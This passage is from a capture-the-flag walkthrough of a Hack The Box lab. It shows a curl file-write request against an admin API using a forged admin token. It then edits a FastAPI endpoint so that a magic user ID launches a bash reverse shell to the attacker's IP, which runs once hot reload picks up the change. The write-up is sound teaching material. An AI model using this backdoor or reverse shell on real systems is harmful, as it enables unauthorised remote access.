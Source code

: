 

#### Write File

I'll use this token with `curl` to try to write a file:



    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/L3RtcC8weGRm \
    > -H 'Content-Type: application/json' \
    > -d '{"file": "string"}' \
    > -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}



It reports success!

### Shell

#### Strategy

I tried to write to `/home/htb/.ssh/authorized_keys`, but it returns an
error. My best guess is that `.ssh` doesn't exist.

There's not much I can do with file write typically, but I did note
above that the webserver is running with a hot reload on. `--reload`,
which by [default](https://www.uvicorn.org/settings/) will:

> periodically look for changes in modification times to all `*.py`
> files (and only `*.py` files) inside of its monitored directories.

So if I can change a Python file, they will all reload.

#### Backdoor Endpoint

I'll fetch a copy of `user.py`, and edit the `/user/[id]` endpoint:



    @router.get("/{user_id}", status_code=200, response_model=schemas.User)
    def fetch_user(*,
        user_id: int,
        db: Session = Depends(deps.get_db)
        ) -> Any:
        """
        Fetch a user by ID
        """
        if user_id == -223:
            import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"')
        result = crud.user.get(db=db, id=user_id)
        return result



I'll set it so that a user id of -223 (which should never happen)
triggers my reverse shell.
